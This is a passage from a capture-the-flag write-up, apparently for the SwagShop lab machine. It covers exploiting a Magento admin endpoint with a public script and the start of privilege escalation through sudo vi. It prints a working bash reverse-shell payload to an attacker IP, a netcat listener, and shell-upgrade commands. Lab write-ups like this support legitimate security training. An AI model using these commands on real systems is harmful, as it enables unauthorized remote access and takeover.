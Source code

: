 We have command execution! Change the payload to include a reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```text
python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'"
```

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Run the script.

![](https://miro.medium.com/max/975/1*2wofzyWVAHdEuuJToW6TjA.png)

We have a shell! Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground.

Grab the user.txt flag.

![](https://miro.medium.com/max/820/1*IoY8IqMKCCOP5vIjDrt30g.png)

## Privilege Escalation <a id="bd9a"></a>

To grab the root.txt flag, we need to escalate our privileges to root.

Run the following command to view the list of allowed commands the user can run as root without a password.

```text
www-data@swagshop:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

We’re allowed to run the vi command on any file in /var/www/html/ as root. If you’re not sure if you can escalate privileges with vi, you can simply check on this [website](https://gtfobins.github.io/). Since we’re restricted to a specific path, we’ll have to slightly modify the command.
